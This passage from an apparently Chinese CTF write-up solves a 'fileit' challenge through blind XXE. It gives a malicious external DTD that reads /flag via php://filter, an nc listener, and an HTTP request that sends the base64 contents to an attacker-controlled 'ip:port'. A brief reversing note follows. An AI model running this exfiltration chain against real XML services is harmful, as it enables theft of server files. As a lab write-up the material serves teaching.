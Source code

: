 ![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1715159120643-2fdc852c-90a5-4e59-ac93-b53d5ccce111.png)

### fileit

抓包，将xml转换为dom，应该是xxe，但无回显

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1715160120063-8031edcb-4241-4581-ba17-1daa50e27182.png)

需要读取vps上恶意dtd，执行命令后回显到vps上

vps：

a.dtd

```php
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ip:port?file=%data;'>">
```

```php
# 开启监听端口3000
nc -lnvp 3000
```

发包：

```php
POST / HTTP/2
Host: 
Content-Length: 152
Content-Type: application/xml

<?xml version="1.0" ?>

<!ENTITY % sp SYSTEM "http://ip:port/a.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1715159539198-13ab8d0f-6231-41f4-a70f-addc811dd68b.png)

成功回显，base64解码得到flag

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1715159880781-c1bd2813-273d-4f02-9003-20d0a5244c52.png)

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1715159584577-cee18e20-5a72-4bd3-869b-0e0c6fc2de3d.png)

0x03 Re
-------

### easyre

确实easy，就是一个换标base64
